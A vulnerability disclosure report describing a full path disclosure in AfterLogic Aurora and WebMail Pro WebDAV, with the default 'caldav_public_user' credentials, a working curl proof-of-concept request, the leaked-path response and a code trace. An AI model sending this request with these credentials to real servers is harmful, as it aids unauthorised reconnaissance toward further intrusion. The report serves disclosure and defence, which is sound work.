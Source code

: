 # **Report Title:** Public Full Path Disclosure on AfterLogic Aurora & WebMail Pro WebDAV EndPoint

**The severity of the issue:** Medium

**Complexity:** Easy

**Affected Products:** AfterLogic Aurora, AfterLogic WebMail PRO

**Authentication:** Not required

**Attacks:** Full Path Disclosure

## **Resources :**

* https://owasp.org/www-community/attacks/Full_Path_Disclosure
* https://owasp.org/www-community/attacks/Path_Traversal

## **Authors :**

* Emre KELEŞ - @emrekeles on twitter
* Emircan YILDIZ - @scorpsec on twitter
* Halil Emre ÖZEN - @halilemreozen on twitter

## **Report Summary :**
AfterLogic Aurora and WebMail Pro products with 7.7.9 and all lower versions are affected by this vulnerability, simply sending an HTTP DELETE request to WebDAV EndPoint with built-in “**caldav_public_user@localhost**” and it’s the predefined password “**caldav_public_user**” allows the attacker to obtain web root path.

## **To Reproduce :**

Get the web root path with the following curl command

```shell
curl -X DELETE -u 'caldav_public_user@localhost:caldav_public_user' "https://sample-mail.tld/dav/server.php/files/personal/GIVE_ME_ERROR_TO_GET_DOC_ROOT_2021"
```

## **Response :**

``` xml
<?xml version="1.0" encoding="utf-8"?>
<d:error xmlns:d="DAV:" xmlns:s="http://sabredav.org/ns">
  <s:exception>Sabre\DAV\Exception\NotFound</s:exception>
  <s:message>File with name /var/www/html/www/webmailpro.dev/data/files/private/caldav_public_user@localhost/GIVE_ME_ERROR_TO_GET_DOC_ROOT_2021 could not be located</s:message>
</d:error>
```

In this scenario : **/var/www/html/www/webmailpro.dev** is the web root path, this data is especially becomes valuable for the file upload vulnerabilities.

## **Technical Description:**

* dav\server.php (handles the request, create the \afterlogic\DAV\Server instance )
* \libraries\Sabre\DAV\server.php -> exec (Pass the request method and uri to invokeMethod)
* \libraries\Sabre\DAV\server.php -> invokeMethod 
* \libraries\Sabre\DAV\server.php -> httpDelete
* \libraries\Sabre\DAV\Tree.php -> delete
* \libraries\Sabre\DAV\ObjectTree.php -> getNodeForPath
* \libraries\Sabre\DAV\FS\Directory.php -> getChild

Get web root path vulnerability starts on step 7 / getChild, at the \Sabre\DAV\Exception\NotFound('File with name ' . $path . ' could not be located') line **$path** variable contains web root path

With the above problem any loggable user can obtain web root path, with the caldav_public_user@localhost user, attackers don’t need any user info because it has a predefined password, so vulnerability becomes publicly accessible.
